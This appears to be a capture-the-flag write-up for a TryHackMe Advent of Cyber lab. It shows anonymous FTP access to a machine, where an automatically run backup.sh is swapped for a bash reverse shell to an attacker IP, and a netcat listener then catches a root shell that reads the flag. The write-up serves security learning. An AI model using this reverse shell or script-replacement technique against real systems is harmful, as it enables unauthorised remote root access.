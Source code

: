 connect to ftp server and with `anonymous` account and get files
```console
┌──(kali㉿kali)-[~/THM/adventofcyber/9]
└─$ cat shoppinglist.txt 
The Polar Express Movie
                                                                                                                        
┌──(kali㉿kali)-[~/THM/adventofcyber/9]
└─$ cat backup.sh       
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
```
in general, backup is execute automatically after some period of time. so let try to put new backup.sh to the ftp server that contain a reverse shell
```console
└─$ cat backup.sh
#!/bin/bash
bash -i >& /dev/tcp/<ip>/6969 0>&1
```
now open nc and wait for reverse shell
```console
$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.120.20] 60378
bash: cannot set terminal process group (1732): Inappropriate ioctl for device
bash: no job control in this shell
root@tbfc-ftp-01:~# ls        
ls
flag.txt
root@tbfc-ftp-01:~# cat flag.txt
cat flag.txt
THM{______________________}
```
                                            